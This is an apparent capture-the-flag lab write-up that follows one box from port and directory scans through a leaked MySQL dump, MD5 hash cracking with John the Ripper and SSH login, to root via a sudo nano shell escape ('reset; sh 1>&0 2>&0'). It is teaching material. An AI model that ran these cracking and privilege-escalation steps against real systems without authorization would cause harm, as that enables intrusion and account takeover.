### Session : 


We ran an `nmap` scan as usual to check the open ports in this machine before attacking :


Since we saw that port 80 was open, We ran a Gobuster scan to look for any hidden directories so we can visit it. We were able to see two new directories as `/news` and `/backup`.


While visiting the `/news` directory from the web browser, we were able to see a `news.pdf` file. It was an article about *MD5 Hashing*. Since it didn't contain any usefull information, we looked into the other directories :


We visited the `/backup` directory and was able to see a `backup.txt` file:


While reading it, we were able to see that it was a mysql Dump and contained some credentials that could use to login to the `Mysql service` on port 3306 we found from the nmap scan :


We used the below command to connect to the `hareen` with the password `mylifemyrules`

```
┌──(root㉿kali)-[~]
└─# mysql -h <machine_ip> -u username -p
```



We were able to login to the mysql service. We used the below command to see the databases available and was able to see that `users` database is a new one :

```mysql
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| users              |
+--------------------+
```

We switched our database to `users` and was able to see the tables using below commands and was able to see a `credentials` table :

``` mysql
MySQL [(none)]> use users;
MySQL [users]> show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| credentials     |
+-----------------+
```

We used the below command and was able to see the content of the table. It contained usernames with some **Hashed** passwords. 

```mysql
MySQL [users]> select * from credentials;
+---------+----------------------------------+
| user    | password                         |
+---------+----------------------------------+
| sasindi | 1eef2ed29ebc81347aa56dce2995da6d |
| destiny | 9f05aa4202e4ce8d6a72511dc735cce9 |
| marc    | 8352269ae368edfeacfa7c1213c35015 |
| vinuk   | 46ea0d5b246d2841744c26f72a86fc29 |
+---------+----------------------------------+
```

We saved it into our local machine using the built in `nano` text editor in linux :

```
┌──(root㉿kali)-[~]
└─# nano hashes.txt
```

Pasted the hashes and `CTRL+X` to exit and press `y` to save and exit :


Because we don't know the hashing algorithm of these hashes, we got one hash and pasted into the [Hash-Identifier](https://hashes.com/en/tools/hash_identifier) and was able to see that this was hashed using `MD5`:


We used `John The Ripper` to crack the hashes using the wordlist *Rockyou.txt*. And was able to crack the hashes of the users: 

```
john <file_name> --wordlist=/path/to/wordlist --format=<format-of-the-hash>
```



Cracked hashes :

| Username | Password | cracked |
| :--: | :--: | ---- |
| sasindi | 1eef2ed29ebc81347aa56dce2995da6d | spiderman |
| destiny | 9f05aa4202e4ce8d6a72511dc735cce9 | mybaby |
| marc | 8352269ae368edfeacfa7c1213c35015 | myspace1 |
| vinuk | 46ea0d5b246d2841744c26f72a86fc29 | blahblahblah |

We then tried those to login using ssh and finally was able to login as `marc:myspace1` credentials  and grab the user flag:

```
ssh marc@<machine_ip>
```



We ran Linpeas and was able to see that we could run `nano` binary as sudo :


Looking for payloads in the GFTO Bins, We found that we can abuse that to elevate our privileges :
https://gtfobins.github.io/gtfobins/nano/#sudo



We used the commands as given :
- Sudo nano
- CTRL + R
- CTRL + X
- reset; sh 1>&0 2>&0

And was able to elevate our privileges to root and grab the root flag :



---

To Complete this box you need:
- Knowledge to use John the ripper to crack hashes.
- An idea about Linux Privilege Escalation .
- Ability to use Gobuster to enumerate directories.
- Know how to transfer linpeas to the victime machine.
- Basic idea about mysql and how to loot from databases

Notes :
- If we find a hash, we always check the type of it using a online tool like [Hash-Identifier](https://hashes.com/en/tools/hash_identifier) So we can crack it easily
- Nano is like the notepad in linux systems, we use it to edit and save our files.

